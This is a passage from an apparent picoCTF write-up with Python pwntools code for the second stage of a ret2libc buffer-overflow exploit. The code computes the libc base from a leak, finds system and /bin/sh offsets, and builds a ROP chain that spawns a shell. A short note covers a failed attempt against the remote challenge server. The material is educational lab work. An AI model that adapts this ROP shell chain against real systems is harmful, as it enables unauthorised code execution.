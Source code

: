 ```python
# Now we take our leaked address and subtract 0x7b0b0, and then we find the actual loaded address of libc
base_address_of_libc = leak - setbuf_offset

log.info(f"{hex(base_address_of_libc)=}") # check if everything is right in our ROPchain, we could see that it isn't leaking right

"""
calcule the address of function system

`readelf -s ./libc.so.6 | grep system`
1403: 000000000004f4e0    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
"""
system_offset = 0x4f4e0
system_address = base_address_of_libc + system_offset # get the actual physical in memory address of system

"""
check if /bin/sh is in libc.so.6
`strings libc.so.6 | grep /bin/sh`, check there is
"""

"""
open libc.so.6 in ghidra (don't scan it)
search memory (press s), change Format from hex to string and search for /bin/sh
002b40fa
"""
bin_sh_offset = 0x1b40fa # it was 0x2b40fa, +100000 because of ghidra had a base address of 0x100000 (thats why its +100000)
bin_sh_address = base_address_of_libc + bin_sh_offset

# second ROPchain (payload), now that its waiting to receive input

second_payload = [
	junk, # get back to the offset, where we know our instruction pointer will end up going, buffer overflow
	p64(pop_rdi), # supply an argument to a function that we end up calling, system 
	p64(bin_sh_address), # string to /bin/sh
	p64(system_address), # passing that to system
]

# prepare our second payload
second_payload = b''.join(second_payload)
p.sendline(second_payload)


p.interactive()

```

we tried to change 
```python
p = process('./vuln') # start the vulnerable program process
 
# we reached EOF (End Of File) with our payload
gdb.attach(p) # debug our ROPchain
```
to
```python
p = remote('mercury.picoctf.net', 37289)
```
but it doesn't work because its stack alligned
